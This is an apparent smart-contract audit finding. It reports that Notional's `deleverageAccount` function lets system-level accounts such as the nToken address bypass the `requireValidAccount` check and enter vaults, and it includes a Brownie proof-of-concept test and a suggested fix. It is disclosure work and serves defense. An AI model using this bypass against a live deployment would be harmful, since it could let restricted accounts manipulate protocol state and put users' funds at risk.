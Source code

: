 Arbitrary-Execution

medium

# `deleverageAccount` can be used by an address to enter a vault that would otherwise be restricted by the `requireValidAccount` check in `enterVault`

## Summary
`deleverageAccount` can be used by an address to enter a vault that would otherwise be restricted by the `requireValidAccount` check in `enterVault`

## Vulnerability Detail
When `enterVault` in `VaultAccountAction.sol` is called, the first function that is called is `requireValidAccount`. This function checks to ensure that the passed-in `account` parameter is not a system-level account address:

```solidity
require(account != Constants.RESERVE); // Reserve address is address(0)
require(account != address(this));
(
    uint256 isNToken,
    /* incentiveAnnualEmissionRate */,
    /* lastInitializedTime */,
    /* assetArrayLength */,
    /* parameters */
) = nTokenHandler.getNTokenContext(account);
require(isNToken == 0);
```

With the above checks, `requireValidAccount` ensures that any Notional system-level account cannot enter a vault. However, `deleverageAccount` in `VaultAccountAction.sol` allows liquidators to transfer vault shares from a liquidated account into their own account. In the case that a liquidator is not already entered into a vault, then `deleverageAccount` will instantiate a vault account for them (using `_transferLiquidatorProfits`) before depositing the liquidated account's vault shares into the newly-instantiated account. This effectively circumvents the `requireValidAccount` check in `enterVault`.

## Impact
Any address that would otherwise be restricted from entering vaults via the `requireValidAccount` check would be able to circumvent that function using `deleverageAccount`. I assume these system-level accounts are restricted from entering vaults as they have access to internal Notional state and are used across the protocol, so having them be able to enter vaults could negatively impact Notional.

Note: This issue may be infeasible if all the relevant Notional system accounts are smart contracts that do not allow arbitrary calls.

## Code Snippet
PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`);
```python3
def test_deleverage_account_instantiate_liquidator_maturity(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    systemAccount = accounts.at(environment.nToken[1], force=True)
    environment.token["DAI"].transfer(systemAccount, 10_000_000e18, {"from": accounts[0]})
    environment.cToken["DAI"].transfer(systemAccount, 10_000_000e8, {"from": accounts[0]})
    environment.token["DAI"].approve(environment.notional.address, 2 ** 256 - 1, {"from": systemAccount})
    environment.cToken["DAI"].approve(environment.notional.address, 2 ** 256 - 1, {"from": systemAccount})

    with brownie.reverts():
        # nToken address is not allowed to enter a vault
        environment.notional.enterVault(
            systemAccount,
            vault.address,
            100_000e18,
            maturity,
            100_000e8,
            0,
            "",
            {"from": systemAccount},
        )

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    environment.notional.deleverageAccount(
        accounts[1], vault.address, systemAccount, 1_000e8, True, "", {"from": systemAccount}
    )

    # System account now has a position in the vault
    systemAccountInfo = environment.notional.getVaultAccount(systemAccount, vault)
    assert systemAccountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider updating the `require` statement in `_transferLiquidatorProfits` to the following:
```solidity
require(liquidator.maturity == maturity, "Vault Shares Mismatch"); // dev: has vault shares
```
